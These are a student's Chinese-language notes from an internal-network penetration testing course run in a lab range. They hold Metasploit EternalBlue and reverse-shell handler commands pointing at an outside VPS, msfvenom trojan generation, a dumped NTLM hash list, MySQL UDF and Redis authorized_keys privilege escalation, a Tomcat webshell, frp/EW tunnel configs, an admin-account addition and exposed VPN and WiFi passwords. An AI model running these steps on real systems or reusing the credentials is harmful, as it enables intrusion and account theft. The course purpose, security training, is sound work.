[TOC]

======================================

# linux经验

#### 终端：

字体变大：ctrl--shift--+

# day03

## 下午

### 4.6节 frp  此实验成功

frpc.exe 和 frpc.ini考入 肉鸡win7，并执行
frps【linux版本】 和 frps.ini考入 kali并执行

#### frpc.ini
[common]
server_addr = 10.2.0.213
server_port = 7001
token = 12345678

[http_proxyx]
type = tcp
remote_port = 1888
plugin = socks5
//plugin_user = abc123               【客户端配置有用户及密码的话，必须用支持输入用户的第三方代理软件比如， 03.02-Proxifier访问 肉鸡192.168.1.3】   
//plugin_passwd = abc123
//user_compression=true

#### frps.ini
[common]
bind_port = 7001
dashboard_port = 8000
token = 12345678
dashboard_user = admin
dashboard_pwd = admin

----------------------------------------
#### PC上代理客户端--firefox
【】PC端firefox 与 kali 上firefox的代理设置区别 ???
PC与kali有一个共用网段----章说，VMWare是NAT模式【】???

【】Socks主机设置为 kali 上的那个与 PC共用网段的IP：192.168.233.128: 1888



HTTP代理：


----------------------------------------



----------------------------------------

# 拓扑连接与IP
PC:--4个IP:
VMware: 192.168.221.1/24,  192.168.233.1/24  【nat ???】
VPN连接到靶机1：10.2.1.88/23
WLAN: 192.168.8.238

VMware Kali: 
192.168.233.18/24
10.2.0.213/32   【】两个VPN连到同一个靶机，处于不同网段的IP ???

### 5.3节

#### 小工具直接传肉机上
arp-scan(x64).exe -t 192.168.1.0/24    【前面命令需要加引号，不然报错！见day03.txt】

#### 大工具

内网穿透，从攻击机内网后渗透方式扫描  【】????

use exploit/multi/handler    【侦听模块】
set payload windows/x64/meterpreter/reverse_tcp   【】
set lhost 47.111.129.24   【章，华为云，ecs服务??】
set lport 8888
run

run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24

【章老师：演示时，外网地址47.XXXX，与作业靶场不同，说是叫VPS ??? 我们靶场实验时，VPN连接的地址 183 ... 】

### 5.5节 端口扫描

在5.3节主机扫描的基础上！

---------------------------
msf模块： aux.../portscan/tcp  【】 

【 ??? 】手动加动态路由：--- sessions
sessions 1
background
search autoroute ?
常规 set ...
autoroute 拍照

setthreads 15 ???
扫描多个IP地址的方法 ???  （,分割？ 写入文件???）

---------------------------

添加路由【】???
use post/multi/manage/autoroute
set session 1
set subnet 192.168.1.0/24
set subnet 192.168.1.0
set cmd add
run

端口扫描
use auxiliary/scanner/portscan/tcp
set rhosts 192.168.1.0/24
set ports 3389,445,8080
run

## 上午 

### 正向与反向代理

正向代理需要客户端配置，客户端是知道自己通过代理方式去访问服务器的。而反向代理，客户端根本就不知道。
【正向代理】我（客户端）知道东西在哪（原始服务器），你（正向代理服务器）代我跑个腿把东西取回来。
【反向代理】我（原始服务器）手里有东西，如果有谁（客户端）想要，你（反向代理服务器）代我接下请求，后东西给你再发出去。
区别：
【正向】客户端为中心，代客户端办事！
【反向】服务器为中心，代服务器办事！
 https://www.cnblogs.com/Anker/p/6056540.html  【onenote】
https://www.cnblogs.com/lalalaxiaoyuren/p/14035105.html  【ew frp】



### 4.3节

拓扑：day02-4.4反向代理.jpg


kali：./ew -s rcsocks -l 1080 -e 8880

win7：ew.exe -s rssocks -d kali_ip -e 8880

名称 win7_weakpass_pc1_u4kr
状态 运行中
IP信息/端口 IP(10.2.2.58、192.168.1.2)、端口(rdp/3389)

sudo openconnect https://183.129.189.62:4434 -u connect_KTvgKB4r -p x\$396de4 --servercert pin-sha256:8XHNTS/TmzPE9/nAELp2EgwI+fmZVoZcyXlgio0ApDw=

【kali的密码是kali；后续提示输入vpn密码时，复制没有反斜杠的密码   x$396de4    ！密码粘贴时不会显示】

------------------------------------






------------------------------------

### 4.5节 代理客户端配置
必须有4.3节EW-earthworm的实验为基础！【】
##### 方式1：PC的火狐中，配置socks代理；
##### 方式2： 使用第三方工具proxychains4，此时，必须先在kali中修改配置文件：

sudo vim /etc/proxychains.conf
proxychains firefox 192.168.1.3 【】  ???

socks5 47.111.129.24 1080 【章 .conf中添加的内容！】

sudo vim /etc/proxychains4.conf

------------------------------------->
proxychain mysql -h 192. uroot -p  【proxy的其它应用】 ???

【】邵老师某个步骤报错：辅导让火狐先关掉 ???

### 4.6节 win代理客户端 

03.02-Proxifier win下安装

### 4.6节 win代理客户端 frp

--------------------  
软件界面左上角 蓝色地球仪图标  【proxif】
代理工具 -- win 同一个代理链  ???

frp是win、linux都有！代理工具

firefox配置 -- action --从中选择上面配置好的代理项

--------------------

https://github.com/fatedier/frp/releases/tag/v0.37.1 官网地址

服务器 frps.ini配置：
[common]
bind_port = 7000
token = 12345678
dashboard_port = 7500
dashboard_user = admin
dashboard_pwd = admin

frpc.ini配置：

# day02
## 下午
### mysql提权工具：【win下】     ?????????

下载 .so：
https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql
show variables like "%plugin%";

02.04-udfhex.txt

1、开通靶机，查看IP: 
终端
名称 linux弱口令_docker-mysql1_isUF
状态 运行中
IP信息/端口 IP(10.2.2.48)、端口(web/80)
CPU 1核
内存 1G
存储 (默认盘0G)

2、win VPN 启动 openconnect-gui.exe

3、cmd窗口中 运行下面命令，进入mysql
mysql -h 10.2.2.48 -uroot -p

4、
show variables like "%plugin%";  【模糊匹配】

下载udf.so，用sublime显示为16进制，替换空格和回车后，复制插入下面的命令5中（02.04-udfhex.txt--回车怎么替换？）
subline中如何去掉回车:
1.选中需要操作的行
2.Ctrl + H 调出替换栏
3.在 Find 栏中输入(同时按这三个键) Ctrl + Shift + Enter , Replace 栏不填
4.按Replace All

notepad++ hex editor ??? ---复制粘贴到word中，替换

5、github下载一个.so，并编辑生成一个16进制文本???
select unhex("") into dumpfile '/usr/local/mysql/lib/plugin/udf.so';         【】
create function sys_eval returns string soname 'udf.so';    【】
select sys_eval('uname -a');   【】



### redis 【秘钥，kali下，终端中运行VPN连接靶机，然后执行下面命令】

redis-cli -h 10.2.2.53
info

config set dir /root/.ssh/

config set dbfilename authorized_keys

-------------------

生成公私钥 ssh-keygen-trsa  【】在哪里执行 ??? 终端中和redis中都不认识 ??? 

-------------------

set x "\n\n\n \n\n\n"

save

使用 公私钥连接 ssh -i id_rsa root@10.2.2.55


------------------------ root目录下创建 .ssh
 sudo cd: permission denied: root
 sudo su 或者 sudo -i 切换成root用户之后再进行操作

-----------------------------------

proxychains4 redis-cli -h 192.168.23.231   【】



-----------------------------------

### tomcat

- 若猜测密码，只能爆破5-6次，否则锁定30分钟

靶机：10.2.2.47
浏览器中输入：http://10.2.2.47:8080/manager/html
tomcat/tomcat 账号

冰蝎  02.04-Behinder3.zip   【】

Java jar -cvf   a.war  shell.jsp  【此句报错，见.txt代码记录】 打包  ??? 只能 java8，java 

【???】浏览器地址栏： http://10.2.2.49:8080/a/shell.jsp  

###  4.1 正向代理

拓扑示意图：A—>B—>T

边界服务器B--类似VPN所连接的183机

实验拓扑图中，是通过PC1访问OA
工具：EW--Earthworm

0) win端用远程桌面连接PC1的公网IP--10.2.2. :
账号： PC/123456

1）把EW拷贝到B上，然后
在B上执行: ew -s ssocksd -l 1080 【建立一个代理服务端，端口为1080】

2）用代理客户端去连接代理服务器   【???】
火狐--设置--网络设置--手动配置代理---去掉HTTP 80代理
采用socks类，其中的 IP 写PC1的 （谷歌chrome需要第三方插件，kali里面有火狐）

3）浏览器中输入PC1的内网192.地址

--------------------------靶场上PC1
终端
名称 win7_weakpass_pc1_hwBD
状态 运行中
IP信息/端口 IP(10.2.2.61、192.168.1.2)、端口(rdp/3389)
CPU 1核
内存 1G
存储 (默认盘0G)

-------------------------靶场上OA
终端
名称 通达OAv11.3任意文件上传文件包含2_vDmF
状态 运行中
IP信息/端口 IP(192.168.1.3)、端口(rdp/3389、http/80)
CPU 2核
内存 2G
存储 (默认盘0G)

-------------------------

进入PC1后，浏览器中直接可以访问OA  192.168.1.3，为什么还要折腾呢？---但，如果需要直接在OA中安装工具？还没装好就被发现了！
02.05-ew.exe 【】

-------------------------

----------------------------------

## 上午 提权

02.01-Windows-Exploit-Suggester-master.zip
受 Linux_Exploit_Suggester的启发而开发的一款提权辅助工具
运行环境是python3.3及以上版本，且必须安装xlrd库（https://pypi.python.org/pypi/xlrd），其主要功能是通过比对systeminfo生成的文件，从而发现系统是否存在未修复漏洞。

【】WIN VPN openconnect.exe SERVER 183.129.189.62

day02-CS-右键-Access-20210803100815.jpg

---------------------------------------------
systeminfo > 1.txt
cd Desktop

python2 windows-exploit-suggester.py --database 2021-08-03-mssb.xls --systeminfo 1.txt  【不兼容 python03 ???】
02.02-ms15-051.exe

net user t1 123123 /add    #添加账户
net localgroup administrators t1 /add    #将t1添加到管理员组

--- github 搜索 cve等工具

# day01 内网渗透

## 笔记
kali左上角黑色图标为终端，可以多次点击，打开多个终端--在更靠右的一个黑色图标中收藏着所有打开的终端。ctrl-c或exit可以关闭。

### 01.下午-2.7节

------------------------day02上午复习
CS--- 靶机 10.2.2.  ，开通WIN VPN 后，本地IP多了一条 10.2.1.
shell --输入 ipconfig 
CS服务器和客户端连接后，在上半个窗口显示的条目（可以看到自己的靶机IP）
CS菜单---Attacks---Packages -- win Exec...

-------------------------

把 01.04-cobaltstrike3 拷贝到 kali中--主页面左上角图标有文件浏览器，找到Desktop，进去后把CS文件夹复制粘贴进去
chmod 755 cobaltstrike

47.111.129.24 
端口：50021  
wings123 【密码】

(kali㉿kali)-[~/Desktop]
└─$ ./teamserver 10.2.0.246 123456          【IP 端口互相不要冲突 ??? 是哪里】
./cobaltstrike

-----------------------
rdesktop -a 16 10.2.2.52 【】???
mstsc.exe
pc/123456 

-------------------
./teamserver 47.111.129.24 wings123  【章   ???】
chmod 755 teamserver
sudo ./teamserver 47.111.129.24 wings123  【】

===================================
关键词：内网 深网 暗网  | 高危补丁 攻击机(vpn) | 目标主机（被放置木马???） 靶机 肉机 |  测试机???

木马分为Web类和全能类（只要有网络），冰蝎ice ???

## 2.6节 msf-后门木马生成--01.下午  

------------------------------------
【】实验操作时的多重身份：
1、作为攻击者
2、作为靶机维护人员

#### 0、环境生成
1、启动VMWare，运行kali
2、网站上，点击“创建场景”，生成靶机
该靶机默认端口3389，支持远程桌面登录，copy，paste等功能！

#### 作为攻击者

##### kali通过vpn登录网站上攻击机，并生成木马

openconnect  【建立vpn的命令】
msfvenom  木马生成

##### msf流程：

模块--设置攻击代码【用来生成木马payload】

msfconsole  【用来打开Metaploit，进入后提示符为msf6】

【】模块rank分为：excellent, great, nomal等
用use执行模块后，模块内命令有：
show options
info
set rhost 
set payload
set lhost
set lport

run, exploit  执行攻击 ???
返回一个shell，可以用于下发payload并执行 ???

## Ihost  rhost reverse_tcp bind_tcp

https://pentest.blog/explore-hidden-networks-with-double-pivoting/

【reverse_tcp方式run成功后，可以直接进入>meterpreter提示符】

### bind_tcp 的设置案例

Payload options (windows/meterpreter/bind_tcp):                      【】
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     7.7.7.20         no        The target address                                              【???】




### reverse_tcp 的设置案例



![LHOST, LPORT ??? 【】 (vx_images/1428907119978.png)

【】


#### search ms17-010  【搜索模块】

use exploit/multi/handler  【???】
set payload windows/x64/meterpreter/bind_tcp  【正向攻击和木马 ??? 】
show options
set rhost 10.2.2.47  【靶机IP】    ???
set lport 8899   【要放到木马上的端口 ??? 】
run

    【 RHOST, kali的IP】








##### 1.3 把木马拷贝到靶机

#### 2、作为靶机维护者

##### 2.1 win上安装一个VPN
01.03-win端VPN工具-openconnect.exe
连接远端后，本机ipconfig 可以看到 多一个网卡：
以太网适配器 以太网 4:

   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::8599:4a27:827d:5186%76
   IPv4 地址 . . . . . . . . . . . . : 10.2.0.213
   子网掩码  . . . . . . . . . . . . : 255.255.254.0
   默认网关. . . . . . . . . . . . . :

----------------------------------

##### windows 中的远程桌面，输入靶机IP，端口默认3389
pc/123456

rdesktop -f -a 10.2.2.47   【】???
 

------------------------------------

##### 正向连接原理与流程：

【正向---需要配置rhost就是肉机的木马所在】 ???

##### 反向连接原理与流程：    【】反向 需要配置 lhost---kali监听机所在
启动本地监听【kali ???】
传木马到服务器【肉机 ???】
木马被点击，会主动跟本地的监听连接

------------------------------------

msfpayload + encode

msfvenom -p xindows/x64/meterpreter/reverse_tcp       lhost=10.11.35.65 lport=8887 -f exe -o 1.exe   【 反向木马  ??? .exe 
】

cp 1.exe ./Desktop 【】拷贝到桌面 ??? 木马程序 

先在本地监听，然后才payload执行：

use exploit/multi/handler
>set payload windows/x64/meterpreter/reverse_tcp
>set lhost 【等 共三条，同上午】

>run
nc -lvv 8887  【】 监听模块内 ???

账号pc，密码123456 靶机  随意设置
安恒U盘，防钓鱼检测 ??? 社工 ???
双击或右键，运行??? 查看靶机--蓝色win10窗口  1.exe 显示木马上线信息

#### 两种木马：

##### 反向-钓鱼木马，reverse ???
反弹式shell（reverse shell）是一种从目标主机到攻击主机创建网络连接，并提供命令行shell的攻击载荷。是由攻击者上传到目标主机后，由目标主机运行和攻击者建立会话。因此，反弹式木马产生的会话更加不易被waf等安全设备拦截。

##### 正向连接木马：
bind shell攻击载荷则在目标主机上将命令行shell绑定到一个打开的监听端口???，攻击者可以连接这些端口来取得shell交互后渗透。与反弹木马相反，bind shell 是由攻击者在自己主机上运行，发动对目标主机的攻击，从而建立会话。

### 2.3节上午
后渗透【】???
shell 不要exit，用background命令 ???
getuid
getpid
sessions
ps 进程【】
hashdump 【】!!!
load mimikatz
load kiwi
wdigest 【】抓密码 ???

## 2.2节-MSF实现漏洞利用-实验day1上午 

靶场创建资源：
> IP信息/端口 IP(10.2.2.25)、端口(rdp/3389)


### 实验原理

kali被攻击，vpn登录的远端是攻击机  

快捷的入门方法：学会用工具！
渗透常用技术：SQL注入，命令执行，密码破解，代理工具，密码获取，信息的分析和梳理
权限维持???

当我们拿下某个单位的一台服务器权限后，下一步就是通过这台机器作为跳板机，攻击这台跳板机所在内网的所有机器。从而达到控制某个单位所有机器或拿到特定敏感数据的过程。

知识点
 web渗透 内网穿透 服务器提权 内网信息收集 内网渗透工具

### kali 终端中运行：

└─$ sudo nmap -sS 10.2.2.25
> [sudo] password for kali: 
> Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 03:43 EDT
> Nmap scan report for 10.2.2.25
> Host is up (0.025s latency).
> Not shown: 990 closed ports
> PORT      STATE SERVICE
> 135/tcp   open  msrpc
> 139/tcp   open  netbios-ssn
> 445/tcp   open  microsoft-ds
> 3389/tcp  open  ms-wbt-server
> 49152/tcp open  unknown
> 49153/tcp open  unknown
> 49154/tcp open  unknown
> 49155/tcp open  unknown
> 49156/tcp open  unknown
> 49157/tcp open  unknown
> Nmap done: 1 IP address (1 host up) scanned in 15.04 seconds

#### 3389--远程桌面（已知PC/123456）

C:\Windows\system32>ipconfig

> Windows IP 配置
> 以太网适配器 本地连接 2:
>    连接特定的 DNS 后缀 . . . . . . . :
>    本地链接 IPv6 地址. . . . . . . . : fe80::2d8e:5701:1cfe:1216
>    IPv4 地址 . . . . . . . . . . . . : 10.2.2.25
>    子网掩码  . . . . . . . . . . . . : 255.255.254.0
>    默认网关. . . . . . . . . . . . . : 10.2.2.1
> 隧道适配器 isatap.{C2C5AF1B-C576-4F87-8AAF-A372ECD639BB}:
>    媒体状态  . . . . . . . . . . . . : 媒体已断开
>    连接特定的 DNS 后缀 . . . . . . . :

J:\内网渗透-tools\工具清单\day04>fscan -h 10.2.2.25           【相比于 nmap，3389没有显示！】

> start infoscan
> (icmp) Target '10.2.2.25' is alive
> icmp alive hosts len is: 1
> 10.2.2.25:135 open
> 10.2.2.25:139 open
> 10.2.2.25:445 open
> alive ports len is: 3
> start vulscan
> NetInfo:
> [*]10.2.2.25
>    [->]admin-PC
>    [->]10.2.2.25
> [*] 10.2.2.25            WORKGROUP\ADMIN-PC          Windows 7 Enterprise 7600
> [+] 10.2.2.25   MS17-010        (Windows 7 Enterprise 7600)
> 已完成 4/4
> scan end

#### msfconsole                                                                                                                        

【】????两个模块的区别          exploit/windows/smb/smb_doublepulsar_rce   exploit/windows/smb/ms17_010_eternalblue 

msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.2.2.25
rhost => 10.2.2.25
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 4444
lport => 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.2.2.25        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     10.2.2.25        no        The target address

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

##### 【正向和反向的区别???】 正向时，肉鸡为lhost和lport ???

> run  【成功以后：】

meterpreter > hashdump
admin:1000:aad3b435b51404eeaad3b435b51404ee:6136ba14352c8a09405bb14912797793:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:00affd88fa323b00d4560bf9fef0ec2f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mysql:1003:aad3b435b51404eeaad3b435b51404ee:bc773a35876802f7edd10adcd0214dcf:::
pc:1002:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
test:1001:aad3b435b51404eeaad3b435b51404ee:0cb6948805f797bf2a82807973b89537:::
test123:1004:aad3b435b51404eeaad3b435b51404ee:c5a237b7e9d8e708d8436b6148a25fa1:::

https://www.somd5.com/  对md5解密：  得到 【  Administrator  /  123qwe!@# 】

### 总体培训环节：
攻击框架使用。
漏洞利用与权限提升。
内网穿透
横向移动
实战演练

#### 内网拓扑


##### MSF 

基本模块show module（table键可补全）???
1.Auxiliary(辅助模块)
2.Exploits(攻击模块)
3.Payload(攻击载荷模块)
4.Post（后渗透模块）
5.Encoders（编码模块）

### 安装与在线环境

5、WiFi dbapp，密码是dbapp@2020

4、kali中，
我的VPN： https://183.129.189.62:4434  connect_KTvgKB4r  x$396de4
kali 连接方式：
sudo openconnect https://183.129.189.62:4434 -u connect_KTvgKB4r -p x\$396de4   【 kali密码为kali，粘贴vpn用户密码（没有回显，直接回车！）： x$396de4  】

3、明御® 攻防实验室平台 (linkedbyx.com)  http://train.linkedbyx.com/entrance

https://train.linkedbyx.com/student/course/10/courseDetail?page=1
账号：姓名/dbapp@2020

2、在VMWare中导入kali-linux-2021.1-vmware-amd64.vmx.lck （账号密码 kali kali）
1、安装 VMware Workstation 15.5

#### kali linux界面



##### msf  msfconsole 
Metasploit是一个免费的、可下载的框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。它本身附带数百个已知软件漏洞的漏洞攻击工具。当H.D.Moore在2003年发布Metasploit时，计算机安全状况也被永久性地改变了。仿佛一夜之间，任何人都可以成为黑客，每个人都可以使用攻击工具来攻击那些未打过补丁的漏洞。

## 2.4节 后渗透

IP信息/端口 IP(10.2.2.29)、端口(rdp/3389)

post 后渗透

## 2.8节 CS-Cobalt Strike搭建与使用-实验


 












### 右键菜单

--Explore - Port Scan ...等 【】



--Access - Dump Hashes / Elevate提权 / Mimikatz 【】


-- Session - Sleep


## win防火墙杀病毒-实时自动删除文件！


## 讲义提纲 

http://train.linkedbyx.com/studentCourseChapterDetail/113

章节
第1章内网渗透基础（2节课）
1.1内网渗透的认识（1.0课时）
1.2内网渗透思路（1.0课时）
第2章内网渗透C&C使用（8节课）
2.1MSF实现漏洞利用（1.0课时）
2.2MSF实现漏洞利用-实验（1.0课时）
2.3 meterpreter后渗透使用（1.0课时）
2.4meterpreter后渗透使用-实验（1.0课时）
2.5MSF木马使用（1.0课时）
2.6MSF木马使用-实验（1.0课时）
2.7 CS搭建与使用（1.0课时）
2.8 CS搭建与使用-实验（1.0课时）
第3章权限提升（9节课）
3.1windows权限提升（1.0课时）
3.2windows权限提升-实验（1.0课时）
3.3Linux权限提升（1.0课时）
3.4mysql_udf权限提升（1.0课时）
3.5mysql_udf权限提升-实验（1.0课时）
3.6redis权限提升（1.0课时）
3.7redis权限提升-实验（1.0课时）
3.8tomcatwar包部署（1.0课时）
3.9tomcatwar包部署-实验（1.0课时）
第4章内网穿透（6节课）
4.1正向代理（1.0课时）
4.2正向代理-实验（1.0课时）
4.3 反向代理（1.0课时）
4.4 反向代理-实验（1.0课时）
4.5 代理客户端-实验（1.0课时）
4.6 frp实现反向代理-实验 1.0课时）
第5章内网信息收集（6节课）
5.1 windows本机信息收集（1.0课时）
5.2内网主机发现（1.0课时）
5.3内网主机发现-实验（1.0课时）
5.4内网主机端口探测（1.0课时）
5.5内网主机端口探测-实验（1.0课时）
5.6内网主机密码收集（1.0课时）

# 其它笔记
### Web应用漏洞攻击种类

#### 跨站脚本攻击（xss）

##### 反射型xss
##### 存储型xss
##### Dom base xss

#### 跨站请求伪造（csrf）

#### Cookie欺骗攻击

#### 上传漏洞

#### Php特有漏洞

#### Sql注入攻击

### 案例实战
